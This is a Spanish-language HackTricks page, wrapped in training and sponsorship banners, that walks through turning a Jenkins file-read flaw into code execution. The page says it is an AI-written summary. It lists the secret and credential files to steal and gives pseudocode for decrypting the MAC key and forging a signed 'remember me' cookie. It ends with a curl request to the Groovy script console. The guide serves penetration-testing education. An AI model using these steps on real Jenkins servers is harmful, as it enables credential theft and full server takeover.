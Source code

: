 # Jenkins Lectura Arbitraria de Archivos a RCE a través de "Recordarme"

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

En esta publicación del blog es posible encontrar una gran manera de transformar una vulnerabilidad de Inclusión de Archivos Local en Jenkins en RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

Este es un resumen creado por IA de la parte de la publicación donde se abusa de la creación de una cookie arbitraria para obtener RCE abusando de una lectura de archivos local hasta que tenga tiempo para crear un resumen por mi cuenta:

### Requisitos Previos del Ataque

* **Requisito de Funcionalidad:** "Recordarme" debe estar habilitado (configuración predeterminada).
* **Niveles de Acceso:** El atacante necesita permisos de Lectura/General.
* **Acceso Secreto:** Capacidad para leer tanto contenido binario como textual de archivos clave.

### Proceso de Explotación Detallado

#### Paso 1: Recolección de Datos

**Recuperación de Información del Usuario**

* Acceder a la configuración del usuario y secretos desde `$JENKINS_HOME/users/*.xml` para cada usuario para recopilar:
* **Nombre de usuario**
* **Semilla del usuario**
* **Marca de tiempo**
* **Hash de contraseña**

**Extracción de Claves Secretas**

* Extraer claves criptográficas utilizadas para firmar la cookie:
* **Clave Secreta:** `$JENKINS_HOME/secret.key`
* **Clave Maestra:** `$JENKINS_HOME/secrets/master.key`
* **Archivo de Clave MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Paso 2: Falsificación de Cookies

**Preparación del Token**

*   **Calcular Tiempo de Expiración del Token:**

{% code overflow="wrap" %}
```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000  // Agrega una hora al tiempo actual
```
{% endcode %}
*   **Concatenar Datos para el Token:**

{% code overflow="wrap" %}
```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```
{% endcode %}

**Desencriptación de la Clave MAC**

*   **Desencriptar Archivo de Clave MAC:**

```javascript
key = toAes128Key(masterKey)  // Convertir clave maestra a formato de clave AES128
decrypted = AES.decrypt(macFile, key)  // Desencriptar el archivo .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Cálculo de la Firma**

*   **Calcular HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey)  // Calcular HMAC usando el token y la clave MAC
tokenSignature = bytesToHexString(mac)  // Convertir el MAC a una cadena hexadecimal
```

**Codificación de la Cookie**

*   **Generar Cookie Final:**

{% code overflow="wrap" %}
```javascript
cookie = base64.encode(username + ":" + tokenExpiryTime + ":" + tokenSignature)  // Codificar en Base64 los datos de la cookie
```
{% endcode %}

#### Paso 3: Ejecución de Código

**Autenticación de Sesión**

* **Obtener Tokens CSRF y de Sesión:**
* Hacer una solicitud a `/crumbIssuer/api/json` para obtener `Jenkins-Crumb`.
* Capturar `JSESSIONID` de la respuesta, que se utilizará junto con la cookie de recordarme.

**Solicitud de Ejecución de Comando**

*   **Enviar una Solicitud POST con Script Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

* El script Groovy se puede utilizar para ejecutar comandos a nivel de sistema u otras operaciones dentro del entorno de Jenkins.

El comando curl de ejemplo proporcionado demuestra cómo hacer una solicitud a Jenkins con los encabezados y cookies necesarios para ejecutar código arbitrario de manera segura.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
